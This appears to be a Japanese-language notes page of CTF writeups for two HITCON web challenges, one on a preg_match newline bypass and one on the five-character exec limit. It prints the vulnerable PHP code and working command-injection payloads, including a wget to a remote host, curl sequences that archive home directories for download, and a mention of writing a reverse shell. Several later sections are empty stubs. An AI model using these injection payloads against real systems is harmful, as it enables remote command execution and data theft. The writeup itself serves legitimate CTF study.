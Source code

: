 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**

- [writeup](#writeup)
  - [PHP "preg_match" with "%0a" (hitcon2015 babyfirst)](#php-preg_match-with--hitcon2015-babyfirst)
  - [](#)
  - [](#-1)
  - [](#-2)
  - [](#-3)
  - [](#-4)
- [メモ](#%E3%83%A1%E3%83%A2)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# writeup
## PHP "preg_match" with "%0a" (hitcon2015 babyfirst)
https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst  
https://github.com/pwning/public-writeup/blob/master/hitcon2015/web100-babyfirst/writeup.md  
- **entrypoint**  
以下のソースが与えられる。  
`if ( !preg_match('/^\w+$/', $args[$i]) )`で行頭から行末までが`\w`(abcdefghijklmnopqrstuvwxyz0123456789_)の時に`/bin/orange`コマンドと結合する。  
`preg_match`の`^ $`では改行文字`%0a`を入れると「行頭から改行文字まで」に範囲が変わってしまって、改行文字以降はチェックしなくなる！  
https://qiita.com/tadsan/items/81b2925b3ed03ae6b7e0  

```php
<?php
    highlight_file(__FILE__);

    $dir = 'sandbox/' . $_SERVER['REMOTE_ADDR'];
    if ( !file_exists($dir) )
        mkdir($dir);
    chdir($dir);

    $args = $_GET['args'];
    for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) )
            exit();
    }
    exec("/bin/orange " . implode(" ", $args));
?>
```
以下のようにすることで`%0a`以降のコマンドを普通に実行できる。  
配列にしてるのは`$args[$i]`で入力が配列として期待されているから。  
```txt
http://localhost/
?args[0]=x%0a
&args[1]=mkdir
&args[2]=orange%0a
&args[3]=cd
&args[4]=orange%0a
&args[5]=wget
&args[6]=846465263%0a
```
- **payload**  
```txt
http://localhost/
?args[0]=x%0a
&args[1]=mkdir
&args[2]=orange%0a
&args[3]=cd
&args[4]=orange%0a
&args[5]=wget
&args[6]=846465263%0a
```
## PHP "exec(cmd) len(cmd)<= 5"(Hitcon CTF 2017 Quals: Baby First Revenge)
https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge  
https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/  
https://hack.more.systems/writeup/2017/11/06/hitconctf-babyfirstrevenge/  
- **entrypoint**  
以下のPHPソースが与えられる。つまり、5文字以内でFlagをゲットする必要がある。  
```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```
いろいろ解法があるらしいけど、以下のようにして`HELLO`という文字列を`z`というファイルに子の手順で書き込めるらしい。  
`>4845`,`ls>>y`で`y`というファイルに`4845`という値が書き込まれる。  
こんな調子でyというファイルにHEXで書き込んでいく。  
`*`でファイルが展開されて最終的に`xxd -p -r y z`みたいにASCIIに直して書きこむ。 
これでリバースシェルも書き込んでFlagゲット。  
```txt
>4845
ls>>y
rm 4*
>4c4c
ls>>y
rm 4*
>4f
ls>>y
rm 4*
>z
>-p
>-r
xxd *
```
別のやり方として、以下のように`*`でファイルを展開してコマンドとして実行できるらしい！  
以下だと`find /`が実行できる。  
`/home/fl4444g/README.txt`が得られるらしい。  
```txt
curl 'http://52.199.204.34/?cmd=>find'
curl 'http://52.199.204.34/?cmd=*%20/>x'
```
以下で`tar zcf zzz /h*`でzzzというファイルを作成してそれをダウンロードしてFlagゲット。(この後もいろいろあるけど同じことなので割愛)  
```txt
curl 'http://52.199.204.34/?cmd=>tar'
curl 'http://52.199.204.34/?cmd=>zcf'
curl 'http://52.199.204.34/?cmd=>zzz'
curl 'http://52.199.204.34/?cmd=*%20/h*'
```
- **payload**  
```txt
>4845
ls>>y
rm 4*
>4c4c
ls>>y
rm 4*
>4f
ls>>y
rm 4*
>z
>-p
>-r
xxd *
```
```txt
curl 'http://52.199.204.34/?cmd=>tar'
curl 'http://52.199.204.34/?cmd=>zcf'
curl 'http://52.199.204.34/?cmd=>zzz'
curl 'http://52.199.204.34/?cmd=*%20/h*'
```
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  

# メモ
